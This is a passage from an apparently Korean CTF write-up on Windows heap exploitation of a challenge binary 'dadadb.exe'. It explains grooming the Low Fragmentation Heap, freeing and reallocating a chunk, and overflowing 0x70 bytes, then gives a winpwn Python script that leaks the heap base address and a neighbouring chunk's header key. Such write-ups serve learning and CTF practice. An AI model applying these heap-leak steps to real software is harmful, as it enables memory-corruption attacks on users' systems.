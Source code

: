 이제 LFH5 chunk를 해제하고 add(LFH4)를 통해 해제후 재 할당된 `LFH4→data` 가 LFH5 chunk에 위치해 있는 것을 볼 수 있습니다. data에 입력한 `aaaaaaaa` 도 잘 들어가 있네요!

![pwncoolsexy-part4/Untitled%2014.png](pwncoolsexy-part4/Untitled%2014.png)

이제 `0x70`만큼 채우면 뒤의 heap address로 heap base address와 바로 뒤 chunk의 key까지 얻을 수 있습니다.

```python
from winpwn import *

#...

context.log_level = "debug"
p = process("./dadadb.exe")

login("a","")
## enable LFH
for i in range(18):
	add("l0ch"+str(i),0x90,"B"*0x90)

## fill userblock
for i in range(17):
	add("LFH"+str(i),0x90,"B"*0x90)

delete("LFH5")
add("LFH4",0x60, 'a'*0x70)
view("LFH4")
p.recvuntil("a"*0x70)
heap_base = u64(p.recv(8)) & 0xffffffffffff0000 

p.recvuntil(p64(0x90))
key = p.recvuntil("\x00")[:-1]
print("heap : ",hex(heap_base))
print("key :",key)
```
